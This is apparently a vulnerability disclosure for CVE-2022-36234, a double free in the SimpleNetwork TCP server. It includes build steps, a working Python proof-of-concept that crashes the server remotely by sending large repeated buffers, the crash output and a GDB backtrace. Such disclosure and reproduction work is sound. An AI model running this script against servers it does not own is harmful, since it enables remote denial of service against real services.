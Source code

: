 # Overview

SimpleNetwork TCP Server commit 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496 was discovered to contain a double free vulnerability which is exploited via crafted TCP packets. Triggering the double free will allow client to crash any SimpleNetwork TCP server remotely. In other situations, double free vulnerabilities can cause undefined behavior and potentially code execution in the right circumstances.

# Reproduction

To ensure you have the standard build tools required to compile the library, install the following packages (ost systems this will already be installed):

``
sudo apt-get install build-essential git
``

The vulnerability can be reproduced by sending consecutive requrests to the server containing a large buffer of characters in a TCP packet.  First, compile the 'libSimpleNetwork' library and example server provided in the source code:

```
git clone https://github.com/kashimAstro/SimpleNetwork.git
cd SimpleNetwork
git checkout 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496
cd src
make
cd ../example-server
make
```

### Start the example-server:

```
./server 80 1
```

### Save the following python3 proof of concept script to a file (modify the host as needed):
```
import socket

host = "localhost"
port = 80                   # The same port as used by the server
buf = b'A'*10000

try:
    for i in range(50):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.sendall(buf)
        data = s.recv(1024)
        s.close()
        print('Received', repr(data))
except:
    print("Completed...")
```

### Execute the python3 script:

```
python3 poc.py
```

### Crash verification:
If successful, the server will crash and you will see the following output from the application:
```
segmentation fault  ./server 80 1
```

### GDB backtrace:
```
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────
 RAX  0x21
 RBX  0x7fffec000e60 ◂— '2023-1-31 11:50:57\r\n'
 RCX  0x0
 RDX  0x555555580ed0 —▸ 0x5555555811b0 ◂— 0x555555581
 RDI  0x55555556e3d0 (TCPServer::newsockfd) —▸ 0x555555580ed0 —▸ 0x5555555811b0 ◂— 0x555555581
 RSI  0xffffffffffffffff
 R8   0x0
 R9   0x640
 R10  0xa3d70a3d70a3d70b
 R11  0x293
 R12  0x14
 R13  0x0
 R14  0x7ffff7a1dc90 —▸ 0x7ffff7a1dcb0 —▸ 0x7ffff7a1dcf0 —▸ 0x7ffff7a1dd30 —▸ 0x7fffe8001bf0 ◂— ...
 R15  0x7ffff621c000 ◂— 0x0
 RBP  0x7ffff6a1bc30 —▸ 0x7ffff6a1bed0 ◂— 0x0
 RSP  0x7ffff6a1bc00 ◂— 0x14
 RIP  0x55555555909e ◂— mov    eax, dword ptr [rax]
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x55555555909e    mov    eax, dword ptr [rax]
   0x5555555590a0    mov    ecx, 0
   0x5555555590a5    mov    rdx, r12
   0x5555555590a8    mov    rsi, rbx
   0x5555555590ab    mov    edi, eax
   0x5555555590ad    call   send@plt                <send@plt>
 
   0x5555555590b2    nop    
   0x5555555590b3    add    rsp, 0x20
   0x5555555590b7    pop    rbx
   0x5555555590b8    pop    r12
   0x5555555590ba    pop    rbp

```


# References

* https://owasp.org/www-community/vulnerabilities/Doubly_freeing_memory
* https://cwe.mitre.org/data/definitions/415.html
* https://github.com/kashimAstro/SimpleNetwork/issues/22
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-36234

